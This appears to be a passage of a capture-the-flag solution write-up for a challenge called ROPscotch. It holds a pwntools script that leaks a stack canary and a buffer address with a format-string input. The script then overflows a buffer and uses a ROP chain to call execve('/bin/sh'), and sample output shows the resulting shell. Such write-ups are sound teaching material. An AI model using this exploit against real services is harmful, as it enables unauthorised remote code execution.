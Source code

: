 ```python
    # int 0x80              - initiate syscall
    payload = b'T\x00'                                      # Valid option to initiate Return
    payload += b'C' * 126                                   # Garbage that overflows
    payload += p32(int(canary,16))                          # Canary
    payload += p32(0xdeadbeef) * 3                          # junk for EBP, and the 2 following pops
    # pop edx ; pop ebx ; ret
    payload += p32(0x08066219)                              # pop off two junk words and then start ROP
    payload += b'\x00\x00\x00\x00'                          # 0x00 -> EDX
    payload += p32(int(buff,16))                            # Buffer for /bin/sh\x00 -> EBX
    # inc eax ; pop edi ; ret
    payload += ((p32(0x0806f3ec) + p32(0xdeadbeef))) * 11   # set EAX to 11 for syscall(execve), pop junk -> EDI
    # xor ecx, ecx ; int 0x80
    payload += p32(0x0804ad4f)                              # 0x00 -> ECX, initiate syscall

    # Send payload
    p.sendline(payload)
    print(p.recv())
    # Drop to shell
    p.interactive()

if __name__ == '__main__':
    exploit()
```
### Usage: ```python3 ./solution.py REMOTE```

### Expected output:

```bash
$ python3 ./solution.py REMOTE
[*] '/tmp/ROPscotch/challenge/timeserver'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 4444: Done
Welcome to the time and date server!
Please select from the following options.
    T = Show current time.
    D = Show current date.

/tmp/ROPscotch/solution/./solution.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('L\n/bin/sh\x00')    # Drop to shell
/tmp/ROPscotch/solution/./solution.py:33: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('AAAA' + '%39$x' + '%32$x')
Canary: db198100
Buffer Address: 8111dc0

b'Time is: 01:00:04 /bin/sh\n'
[*] Switching to interactive mode
$ ls
bin
boot
dev
entrypoint.sh
etc
flag.txt
home
```

[//]: <> (Add your full sulution scripts as files if applicable or use this section here to add a code block.)
[//]: <> (Give an explination of the code and how to run it here. Make sure to explain the correct output so that anyone following allong can verify that it is running correctly.)
[//]: <> (Add the flag below)